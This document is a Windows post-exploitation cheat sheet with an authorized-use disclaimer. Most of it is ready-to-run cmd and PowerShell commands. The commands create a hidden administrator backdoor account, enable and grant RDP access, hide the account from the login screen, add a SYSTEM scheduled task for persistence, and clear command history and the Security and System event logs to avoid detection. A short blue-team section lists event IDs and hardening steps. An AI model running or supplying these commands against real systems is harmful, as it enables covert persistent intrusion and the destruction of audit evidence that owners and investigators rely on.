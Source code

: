 # Windows Post-Exploitation Cheat Sheet

> **⚠️ Legal & Ethical Notice**  
> These techniques are for **authorized penetration testing and red team engagements only**.  
> Unauthorized use is illegal. Always obtain proper permissions before testing.

---

## 🔐 User Creation & Privilege Escalation

### Create Hidden Local User
```cmd
net user joker P@$$w0rd! /add /comment:"System Backup Account" /fullname:"System Backup" /passwordchg:no
```

- `/passwordchg:no`: Prevents password expiration
- `/comment`: Adds decoy description for evasion
- **Verify**: `net user joker`

### Elevate to Administrator
```cmd
net localgroup administrators joker /add
```

**Verify**:
```cmd
net localgroup administrators | findstr /i joker
```

### Grant RDP Access
```cmd
net localgroup "Remote Desktop Users" joker /add
```

**Verify**:
```cmd
net localgroup "Remote Desktop Users" | findstr /i joker
```

---

## 🖥️ Remote Desktop Protocol (RDP) Setup

### Start RDP Service Immediately
```cmd
net start TermService
```

### Verify Service Status
```cmd
sc query TermService | findstr "STATE"
```

**Alternative**:
```cmd
tasklist /svc | findstr /i TermService
```

### Enable Auto-Start on Boot
```cmd
sc config TermService start= auto
```

**Confirm**:
```cmd
sc qc TermService | findstr "START_TYPE"
```

### Allow Connections via Registry
```cmd
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

- Reboot required for registry changes
- **Bypass reboot (temporary enable)**:
  ```cmd
  net stop TermService && net start TermService
  ```

---

## 🔍 Detection Avoidance & Cleanup

### Obfuscate User Activity
```cmd
net user joker /comment:"Legacy System Account" /fullname:"Legacy User"
```
*Change account description post-creation*

### Clear Command History
```cmd
doskey /reinstall
```

**PowerShell Alternative**:
```powershell
Set-PSReadlineOption -HistorySaveStyle SaveNothing
```

### Registry Stealth Modifications
```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v joker /t REG_DWORD /d 0 /f
```
*Hides user from login screen (Windows 10/11)*

---

## 🛡️ Blue Team Detection Checklist

### Critical Windows Events to Monitor

| Event ID | Description | Trigger Action |
|----------|-------------|----------------|
| 4720 | User account created | `net user /add` |
| 4732 | Added to privileged group | `net localgroup administrators` |
| 4624 | Successful RDP login | Terminal Services activity |
| 7045 | Service configuration change | `sc config TermService` |
| 4697 | Service installation | Service binary modification |

### Defense Recommendations

1. **Enable auditing** for Account Management events

2. **Monitor registry changes** to:
   - `HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server`
   - `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`

3. **Restrict RDP access**:
   ```powershell
   # Block RDP for non-admin users
   Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "UserAuthentication" -Value 1
   ```

4. **Implement LAPS** for local admin password management

---

## 💡 Pro Tips

### Password Strategy
- Use `P@$$w0rd!` instead of `password123` to bypass weak password checks

### RDP Alternatives
When RDP is blocked, use **PowerShell Remoting**:
```powershell
Enter-PSSession -ComputerName target -Credential (Get-Credential)
```

### Persistence Technique
Create scheduled task for user maintenance:
```cmd
schtasks /create /tn "SystemUpdate" /tr "net user joker P@$$w0rd!" /sc daily /ru SYSTEM
```

### Cleanup Protocol
- Always remove tools, logs, and temporary files after engagement
- Clear event logs if possible:
  ```cmd
  wevtutil cl Security
  wevtutil cl System
  ```

---

## 📋 Quick Reference Commands

### Essential Verification Commands
```cmd
# Check current user privileges
whoami /priv

# List all local users
net user

# Check RDP status
netstat -an | findstr :3389

# View active sessions
quser
```

### Emergency Cleanup
```cmd
# Remove created user
net user joker /delete

# Stop RDP service
net stop TermService

# Disable RDP via registry
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
```

---

> **Disclaimer**: This cheat sheet is provided for educational and authorized testing purposes only. The author assumes no responsibility for misuse of this information.
```